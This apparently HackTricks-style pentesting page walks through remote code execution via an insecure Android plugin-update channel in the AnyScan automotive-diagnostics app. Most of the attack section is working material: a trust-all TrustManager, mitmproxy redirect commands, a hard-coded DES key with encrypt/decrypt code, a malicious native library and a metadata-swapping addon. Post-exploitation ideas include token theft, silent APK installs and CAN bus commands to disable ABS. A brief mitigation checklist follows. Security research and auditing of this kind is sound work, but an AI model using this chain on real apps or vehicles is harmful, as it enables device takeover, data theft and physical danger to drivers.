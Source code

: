# Insecure In-App Update Mechanisms – Remote Code Execution via Malicious Plugins

{{#include ../../banners/hacktricks-training.md}}

Many Android applications implement their **own “plugin” or “dynamic feature” update channels** instead of using the Google Play Store.  When the implementation is insecure an attacker able to intercept the traffic can supply **arbitrary native code that will be loaded inside the app process**, leading to full Remote Code Execution (RCE) on the handset – and in some cases on any external device controlled by the app (cars, IoT, medical devices …).

This page summarises a real‐world vulnerability chain found in the Xtool **AnyScan** automotive-diagnostics app (v4.40.11 → 4.40.40) and generalises the technique so you can audit other Android apps and weaponise the mis-configuration during a red-team engagement.

---
## 1. Identifying an Insecure TLS TrustManager

1. Decompile the APK with jadx / apktool and locate the networking stack (OkHttp, HttpUrlConnection, Retrofit…).
2. Look for a **custom `TrustManager`** or `HostnameVerifier` that blindly trusts every certificate:

```java
public static TrustManager[] buildTrustManagers() {
    return new TrustManager[]{
        new X509TrustManager() {
            public void checkClientTrusted(X509Certificate[] chain, String authType) {}
            public void checkServerTrusted(X509Certificate[] chain, String authType) {}
            public X509Certificate[] getAcceptedIssuers() {return new X509Certificate[]{};}
        }
    };
}
```

3. If present the application will accept **any TLS certificate** → you can run a transparent **MITM proxy** with a self-signed cert:

```bash
mitmproxy -p 8080 -s addon.py  # see §4
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-ports 8080  # on rooted device / emulator
```

## 2. Reverse-Engineering the Update Metadata

In the AnyScan case each app launch triggers an HTTPS GET to:
```
https://apigw.xtoolconnect.com/uhdsvc/UpgradeService.asmx/GetUpdateListEx
```
The response body is an **XML document** whose `<FileData>` nodes contain **Base64-encoded, DES-ECB encrypted** JSON describing every available plugin.

Typical hunting steps:
1. Locate the crypto routine (e.g. `RemoteServiceProxy`) and recover:
   * algorithm (DES / AES / RC4 …)
   * mode of operation (ECB / CBC / GCM …)
   * hard-coded key / IV (often 56-bit DES keys or 128-bit AES keys in constants)
2. Re-implement the function in Python to decrypt / encrypt the metadata:

```python
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

KEY = IV = b"\x2A\x10\x2A\x10\x2A\x10\x2A"  # 56-bit key observed in AnyScan

def decrypt_metadata(data_b64: str) -> bytes:
    cipher = DES.new(KEY, DES.MODE_ECB)
    return cipher.decrypt(b64decode(data_b64))

def encrypt_metadata(plaintext: bytes) -> str:
    cipher = DES.new(KEY, DES.MODE_ECB)
    return b64encode(cipher.encrypt(plaintext.ljust((len(plaintext)+7)//8*8, b"\x00"))).decode()
```

## 3. Craft a Malicious Plugin

1. Pick any legitimate plugin ZIP and replace the native library with your payload:

```c
// libscan_x64.so – constructor runs as soon as the library is loaded
__attribute__((constructor))
void init(void){
    __android_log_print(ANDROID_LOG_INFO, "PWNED", "Exploit loaded! uid=%d", getuid());
    // spawn reverse shell, drop file, etc.
}
```

```bash
$ aarch64-linux-android-gcc -shared -fPIC payload.c -o libscan_x64.so
$ zip -r PWNED.zip libscan_x64.so assets/ meta.txt
```

2. Update the JSON metadata so that `"FileName" : "PWNED.zip"` and `"DownloadURL"` points to your HTTP server.
3. DES-encrypt + Base64-encode the modified JSON and copy it back inside the intercepted XML.

## 4. Deliver the Payload with mitmproxy

`addon.py` example that *silently* swaps the original metadata:

```python
from mitmproxy import http
MOD_XML = open("fake_metadata.xml", "rb").read()

def request(flow: http.HTTPFlow):
    if b"/UpgradeService.asmx/GetUpdateListEx" in flow.request.path:
        flow.response = http.Response.make(
            200,
            MOD_XML,
            {"Content-Type": "text/xml"}
        )
```

Run a simple web server to host the malicious ZIP:
```bash
python3 -m http.server 8000 --directory ./payloads
```

When the victim launches the app it will:
* fetch our forged XML over the MITM channel;
* decrypt & parse it with the hard-coded DES key;
* download `PWNED.zip` → unzip inside private storage;
* `dlopen()` the included *libscan_x64.so*, instantly executing our code **with the app’s permissions** (camera, GPS, Bluetooth, filesystem, …).

Because the plugin is cached on disk the backdoor **persists across reboots** and runs every time the user selects the related feature.

## 5. Post-Exploitation Ideas

* Steal session cookies, OAuth tokens, or JWTs stored by the app.
* Drop a second-stage APK and silently install it via `pm install` (the app already has `REQUEST_INSTALL_PACKAGES`).
* Abuse any connected hardware – in the AnyScan scenario you can send arbitrary **OBD-II / CAN bus commands** (unlock doors, disable ABS, etc.).

---
### Detection & Mitigation Checklist (blue team)

* NEVER ship a production build with a custom TrustManager/HostnameVerifier that disables certificate validation.
* Do not download executable code from outside Google Play. If you *must*, sign each plugin with the same **apkSigning v2** key and verify the signature before loading.
* Replace weak/hard-coded crypto with **AES-GCM** and a server-side rotating key.
* Validate the integrity of downloaded archives (signature or at least SHA-256).

---
## References

- [NowSecure – Remote Code Execution Discovered in Xtool AnyScan App](https://www.nowsecure.com/blog/2025/07/16/remote-code-execution-discovered-in-xtool-anyscan-app-risks-to-phones-and-vehicles/)
- [Android – Unsafe TrustManager patterns](https://developer.android.com/privacy-and-security/risks/unsafe-trustmanager)

{{#include ../../banners/hacktricks-training.md}}